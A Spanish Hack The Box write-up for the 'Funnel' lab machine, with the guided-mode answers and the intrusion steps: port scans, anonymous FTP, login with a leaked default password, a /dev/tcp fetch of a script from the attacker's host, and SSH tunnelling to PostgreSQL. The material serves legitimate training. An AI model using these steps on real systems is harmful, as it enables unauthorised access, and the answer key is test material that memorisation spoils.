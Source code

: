 ```yaml
---
title: Writeup funnel - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - funnel
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina funnel en Hack The Box.
keywords:
  - writeup funnel
  - hack the box funnel
  - resolución máquina funnel
  - funnel hack the box
  - htb funnel
---
```

----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+1/Linux/Funnel)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=VzS3cpyRyuc)
- 🧠 **Explicación resumida**: 

------

#veryeasy #linux #nmap #ping  #ftp #cat #ssh #portscannersh

------
# Guided Mode

1)¿Cuántos puertos TCP hay abiertos?
	2

2)¿Cuál es el nombre del directorio disponible en el servidor FTP?
	mail_backup

3)¿Cuál es la contraseña por defecto de la cuenta que todo nuevo miembro del equipo «Embudo» debe cambiar lo antes posible?
	funnel123#!#

4)¿Qué usuario no ha cambiado aún su contraseña por defecto?
	christine

5)¿Qué servicio se ejecuta en el puerto TCP 5432 y sólo escucha en localhost?
	postgresql

6)En este escenario, necesitas acceder a un servicio que se ejecuta en el servidor. Por lo tanto, generará tráfico dirigido a un puerto en su máquina local y, a su vez, SSH hará un túnel con este tráfico hacia el puerto remoto.
	local port forwarding

7)¿Cómo se llama la base de datos que contiene la bandera?
	secrets

8)¿Podría utilizar un túnel dinámico en lugar del reenvío local de puertos? Sí o No.
	yes

---------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.243.9
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.243.9 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,22 10.129.243.9 -oN target
```

![[Funnel1.png]]

![[Funnel2.png]]

![[Funnel3.png]]
*TTL:* Maquina Linux
*Puertos*:
	`21` [[ftp]]
	`22` [[ssh]]
*Datos Importantes:*
	El servicio [[ftp]] tiene la vulnerabilidad para conectarse como el usuario *anonymous*

------
# Conexion por [[ftp]]

Nos conectamos con el comando `ftp 10.129.243.9`, en usuario ponemos anonymous y en contraseña no colocamos nada. Esta es la vulnerabilidad que vimos antes con el escaneo de nmap
Entramos al directorio mail_backup y descargamos con el comando `get` los archivos password_policy.pdf y welcome_28112022

![[Funnel4.png]]

----------
### Analizamos el contenido de los archivos

*Archivo welcome_28112022:*

![[Funnel5.png]]
Nos da la informacion de que existen los usuarios, optimus, albert, andreas, christine, y maria

*Archivo password_policy.pdf*
Lo abrimos con el comando `xdg-open password_policy.pdf`

![[Funnel6.png]]
Nos informa que los usuarios nuevos tienen por defecto la contraseña ``funnel123#!#``

--------
## Conexion por [[ssh]]

El usuario christine no habia cambiado su contraseña y nos conectamos con `ssh christine@10.129.243.9 -p 22`
![[Funnel7.png]]
Ya estamos dentro de la maquina

----------

# [[Tratamiento de la TTY]]

------------
### Vamos a escanear los puertos con [[portScanner.sh a nivel local]]

Nuestra maquina: ``nc -nlvp 443 < portScanner.sh``
Maquina victima: ``cat < /dev/tcp/10.10.16.3/443 > portScanner.sh``

```
#!/bin/bash

function ctrl_c(){
  echo "[!]Saliendo..."
  exit 1
}

trap ctrl_c INT

for i in $(seq 1 65535); do
  timeout 1 bash -c "echo '' > /dev/tcp/127.0.0.1/$i" 2>/dev/null && "[!]Puerto abierto: $i" &
done
```

Y le damos permiso de ejecucion al archivo con `chmod +x portscanner.sh`

![[Funnel8.png]]
Sabemos que esta abierto el 21:ftp, 22:ssh, y el 5432 que no sabemos que es

Para saber que servicio corre en el puerto 5432 vamos a usar [[getent services]] con el comando `getent services 5432`. Y por detecto en este puerto corre el servicio postgresql
![[Funnel9.png]]

--------
# Conexion por [[postgresql]] y tunneling de [[ssh]]

Nos vamos a conectar nuevamente por [[ssh]] pero haciendo que el puerto de la maquina victima 5432 sea nuestro puerto 1234
``ssh -L 1234:localhost:5432 christine@10.129.243.9``


Y ahora nos vamos a poder conectar a la [[postgresql]] con el comando ``psql -U christine -h localhost -p 1234``
y cuando nos pide contraseña ponemos la misma de antes funnel123#!#

Una vez dentro de la base de datos, listamos la flag
```posgresql
`\l                   |para ver las bases de datos
\c                    |secrets para usar la base de datos
\dt                   |para ver las tablas y columnas
SELECT * FROM flag;   | para listar todo el contenido de la tabla flag
```

![[Funnel10.png]]

----------
# Creditos
Writeup Oficial HackTheBox